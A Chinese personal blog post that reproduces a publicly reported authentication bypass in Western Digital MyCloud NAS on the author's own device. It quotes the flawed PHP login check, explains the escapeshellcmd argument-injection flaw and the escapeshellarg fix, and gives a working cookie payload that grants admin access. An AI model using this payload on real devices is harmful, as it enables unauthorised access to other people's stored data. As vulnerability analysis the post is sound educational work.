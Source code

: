 ```yaml
---
layout: post
title: 西部数据MyCloud存在登陆认证绕过漏洞
categories: 网络
description: 西部数据MyCloud存在登陆认证绕过漏洞
keywords: 西部数据, 登陆认证绕过
---
```

因为我的笔记本电脑的空间太小了，所以考虑利用云储存来存放一些静态的数据。虽然百度云盘有免费2T的额度，但是上传下载速度非常慢，并且还要付费VIP会员才能享受高速下载，于是我选择了西部数据的MyCloud产品。

![](/images/network/B0801-2.jpg)

为了避免广告嫌疑，我这里只稍微提提我对这个产品的看法。这几乎是市面上性价比最高的NAS产品，不到千元能够拥有3000GB的私有空间，并且内置的3.5英寸硬盘是西部数据比较高端的NAS红盘，要知道这个硬盘（3TB）单价都快接近千元了。在千兆的网络环境下，这款产品支持高达60MB/s的读写能力，并且是无风扇设计，工作的时候非常安静。MyCloud已经内置了西部数据的NAS系统，只需要简单的设置就能立刻投入使用。最让我爱不惜手的是它原生支持apple的时间胶囊功能，非常简单就能部署apple的“时刻备份”。

最近在FreeBuf有一篇文章提到，西部数据的NAS系统发现几个漏洞，我在阅读完文章之后，尝试去利用该漏洞做简单的网络攻击。可以访问[这里](1)查看这篇文章。

# 0.漏洞挖掘
首先，主机的IP地址是192.168.199.218，MyCloud的IP地址是192.168.199.244，它们同一网段。我先利用SSH登陆MyCloud的后台查找漏洞的文件。
```bash
ssh root@192.168.199.244
```
顺利登陆之后，按照FreeBuf中提到的漏洞文件，顺利在这个目录下找到对应的<code>login_checker.php</code>。
```bash
cd /var/www/web/lib/
```

# 1.查看代码
在这个文件里面有两个函数，首先看一看这个<code>login_check</code>函数。
```php
function login_check()
{
        $ret = 0;
        if (isset($_SESSION['username']))
        {
                if (isset($_SESSION['username']) && $_SESSION['username'] != "")
                    $ret = 2; //login, normal user
                if ($_SESSION['isAdmin'] == 1)
                    $ret = 1; //login, admin
        }
        else if (isset($_COOKIE['username']))
        {
                if (isset($_COOKIE['username']) && $_COOKIE['username'] != "")
                    $ret = 2; //login, normal user

                if ($_COOKIE['isAdmin'] == 1)
                    $ret = 1; //login, admin

                if (wto_check($_COOKIE['username']) === 0) //wto check fail
                    $ret = 0;
        }
        return $ret;
}
```
它的作用是先检查<code>session</code>是否正确设置了username，并且根据<code>isAdmin</code>变量的值来判断是不是拥有管理员权限。如果<code>session</code>没有设置，那么就去询问<code>cookie</code>中是否正确了username，检查的思路是类似的。但是注意到有一点不同，那就是<code>wto_check</code>函数，它尝试第二次对cookie进行识别。下面是<code>wto_check</code>的定义，它的位置在<code>/var/www/web/lib/login_checker.php</code>中。
```php
/*
  return value: 1: Login, 0: No login
*/
function wto_check($username)
{
        if (empty($username))
                return 0;

        exec(sprintf("wto -n \"%s\" -i '%s' -c", escapeshellcmd($username), $_SERVER["REMOTE_ADDR"]), $login_status);
        if ($login_status[0] === "WTO CHECK OK")
                return 1;
        else
                return 0;
}
/* ret: 0: no login, 1: login, admin, 2: login, normal user */
```
上面可以看到，当<code>$username</code>非空的时候，它会尝试执行<code>wto</code>命令，其中参数是<code>$username</code>以及<code>$_SERVER["REMOTE_ADDR"]</code>，其中后者代表的是请求方的IP地址。我们尝试查询<code>wto</code>命令是做什么用的？
```bash
# wto --h
Usage: wto [parm]
-h        help
-n        user name
-i        ip address
-s        set timeout
-g        get timer
-c        check timeout
-r        reset timer
-a        remove all
-x        del timeout item
-z        show all
-d        del user
```
到这里我们就知道了关于<code>wto</code>的一些参数信息了。回到上面的<code>login_checker.php</code>中，它尝试使用<code>escapeshellcmd($username)</code>来过滤恶意的输入，但是它不能阻止我们传入参数。所以可以利用这一点重新设置timeout的属性，然后就可以绕过认证了。（The programmer used the PHP function “escapeshellcmd()” which is used to escape an entire command (as opposed to a single argument) and doesn’t comment out new function arguments.）

这里应该建议使用<code>escapeshellarg()</code>来避免攻击。

# 2.构造攻击
使用任何基于PHP的RCE攻击，设置cookie就可以了，例如下面的语句(作为curl的参数)
```bash
--cookie "isAdmin=1;username=admin\" -s 1337 -c \""
```

# 3.效果
![](/images/network/B0801-1.jpg)

# 题外话
目前我更新了系统固件，该漏洞依旧存在。另一方面，西部数据的NAS系统还存在很多严重的漏洞，例如绕过认证上传文件、绕过认证远程执行命令漏洞等等，限于篇幅这里就不一一展示了，希望读者阅读之后能够有所收获。

# More
这次实验花了我一个晚上的时间，收获很多很多，例如加深了对RCE的理解，如何过滤恶意的输入以及NFS协议的细节。通过抓包和控制台检测整个通信的过程，并成功向MyCloud注入了命令，非常好玩！不过很遗憾的是，因为我利用SSH登陆了后台，所以这台机器已经失去了【保修】的资格。谢谢各位看官。


  [1]: http://www.freebuf.com/vuls/128734.html